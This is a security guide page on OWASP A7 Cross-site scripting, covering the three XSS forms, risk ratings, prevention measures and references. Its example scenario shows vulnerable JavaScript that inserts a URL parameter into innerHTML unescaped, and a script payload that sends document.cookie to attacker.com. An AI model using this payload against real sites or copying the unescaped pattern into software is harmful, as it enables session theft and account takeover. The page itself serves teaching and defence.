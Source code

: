 ```yaml
---
name: A7 Cross-site scripting (XSS)
menu: OWASP Top 10
route: /owasp/a7_cross-site_scripting_xss
---
```


# A7 Cross-site scripting (XSS)

## Definition

XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.

## Risk Factor Summary

- Score: 6.0
- Attack Vectors Exploitability: 3
- Security Weakness Prevalence: 3
- Security Weakness Detectability: 3
- Impact Technical: 2

## Context

<iframe width="100%" height="450"
src="https://www.youtube.com/embed/IuzU4y-UjLw">
</iframe>

Automated tools can detect and
exploit all three forms of XSS, and
there are freely available exploitation
frameworks.


XSS is the second most prevalent issue in the
OWASP Top 10, and is found in around two-thirds of
all applications.


Automated tools can find some XSS problems
automatically, particularly in mature technologies
such as PHP, J2EE / JSP, and ASP.NET.


The impact of XSS is moderate for
reflected and DOM XSS, and severe
for stored XSS, with remote code
execution on the victim's browser,
such as stealing credentials,
sessions, or delivering malware to the
victim.

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

- **Reflected XSS:** The application or API includes unvalidated and
unescaped user input as part of HTML output. A successful
attack can allow the attacker to execute arbitrary HTML and
JavaScript in the victim’s browser. Typically the user will need to
interact with some malicious link that points to an attackercontrolled page, such as malicious watering hole websites,
advertisements, or similar.

- **Stored XSS:** The application or API stores unsanitized user
input that is viewed at a later time by another user or an
administrator. Stored XSS is often considered a high or critical
risk.

- **DOM XSS:** JavaScript frameworks, single-page applications, and
APIs that dynamically include attacker-controllable data to a
page are vulnerable to DOM XSS. Ideally, the application would
not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover,
MFA bypass, DOM node replacement or defacement (such as
trojan login panels), attacks against the user's browser such as
malicious software downloads, key logging, and other client-side
attacks.

## How to Prevent

Preventing XSS requires separation of untrusted data from
active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design,
such as the latest Ruby on Rails, React JS. Learn the
limitations of each framework's XSS protection and
appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in
the HTML output (body, attribute, JavaScript, CSS, or URL) will
resolve Reflected and Stored XSS vulnerabilities. The OWASP
[Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data
escaping techniques.
- Applying context-sensitive encoding when modifying the
browser document on the client side acts against DOM XSS.
When this cannot be avoided, similar context sensitive
escaping techniques can be applied to browser APIs as
described in the [OWASP Cheat Sheet 'DOM based XSS
Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense-in-depth
mitigating control against XSS. It is effective if no other
vulnerabilities exist that would allow placing malicious code via
local file includes (e.g. path traversal overwrites or vulnerable
libraries from permitted content delivery networks).

## Conceptual Attacks

### Scenario #1: 
The application uses untrusted data in the
construction of the following HTML snippet without validation or
escaping:

```js
const urlParams = new URLSearchParams(window.location.search);

page.innerHTML += `<input name='creditcard' type='TEXT'
value='${urlParams.get("CC")}'>`;
```

The attacker modifies the ‘CC’ parameter in the browser to:
```
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'
```

This attack causes the victim’s session ID to be sent to the
attacker’s website, allowing the attacker to hijack the user’s
current session.

Note: Attackers can use XSS to defeat any automated CrossSite Request Forgery (CSRF) defense the application might
employ.


## Example Attack Scenarios

### Please review
- The [Explained attack: Cross-site scripting (XSS) in this guide](/attacks_explained/cross-site_scripting_xss)
    - [Reflected XSS](/attacks_explained/cross-site_scripting_xss#reflected-xss)
    - [Stored XSS](/attacks_explained/cross-site_scripting_xss#stored-xss)
    - [DOM XSS](/attacks_explained/cross-site_scripting_xss#dom-xss)
- The [Explained attack: Cross Site Request Forgery (CSRF) in this guide](/attacks_explained/cross_site_request_forgery_csrf)
- The [Explained attack: Server-Side Request Forgery (SSRF) in this guide](/attacks_explained/server-side_request_forgery_ssrf)

## Hacking Playground

- [🐐 NodeGoat | A7 Cross-site scripting (XSS)](https://nodegoat.herokuapp.com/tutorial/a7)
- [🧃 Pwning OWASP Juice Shop | A7 Cross-site scripting (XSS)](https://pwning.owasp-juice.shop/part2/xss.html)

## References

### OWASP

- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community//xss-filter-evasion-cheatsheet)

### CWEs

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)